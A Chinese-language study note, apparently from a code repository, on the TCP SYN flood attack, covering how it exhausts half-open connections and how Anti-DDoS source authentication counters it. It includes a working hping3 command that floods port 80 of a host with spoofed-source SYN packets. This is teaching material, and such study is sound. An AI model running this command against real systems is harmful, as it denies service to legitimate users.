

# TCP安全攻击手段

## SYN flood攻击



黑客伪造源IP地址向服务器发送大量`SYN报文`,请求建立三次握手.由于发送源IP是伪造的,所以服务器回应了`SYN-ACK报文`后,源IP不会再继续回应`ACK报文`进行确认.这样服务器就会维持一个庞大的等待列表,不停地重试发送`SYN-ACK报文`,同时占用这大量的资源无法释放. 这就导致被攻击的服务器被恶意半连接占满,不再接受SYN请求,合法用户无法完成三次握手建立TCP连接.

### KALI发起攻击
```sh
sudo apt-get install hping3
# sending 15000 packets 每个120 bytes; -c 15000 -d 120
# 确切指定 SYN Flag -S;
# -w 64指代TCP的 window size; -p port
# --flood 尽可能块地发送packets; --rand-source 生产欺骗性IP地址以伪装真实来源来避免检测但同时停止受害者的SYN-ACK回复数据包
hping3 -c 15000 -d 120 -S -w 64 -p 80 --flood --rand-source 192.168.1.159
```

### Anti-DDos如何解决SYN flood
SYN flood是基于TCP协议的,TCP是面向连接的,故可以从SYN报文建立连接的"行为"着手,判断是否是真实源发出的请求. **源认证**

1. 针对僵尸主机用伪造源IP对服务器SYN flood,对到达服务器的SYN报文进行统计,流量达到告警阈值时,触发防御机制.

2. Anti-DDos拦截SYN报文,并反弹错误序列号的SYN-ACK到客户端;
    - 若是虚假源,则不会响应SYN-ACK报文
    - 若是真实源,收到SYN-ACK报文后,会回应RST报文,要求重新建立连接

3. 将回应RST的客户端源IP加入白名单,并透过客户端重新发送SYN报文,客户端服务端建立三次握手,并进行后续数据传输.


参考:

[华安解密之 DDos](https://forum.huawei.com/enterprise/zh/thread-360365-1-1.html)

[kali tcp syn flood](http://www.firewall.cx/general-topics-reviews/network-protocol-analyzers/1224-performing-tcp-syn-flood-attack-and-detecting-it-with-wireshark.html)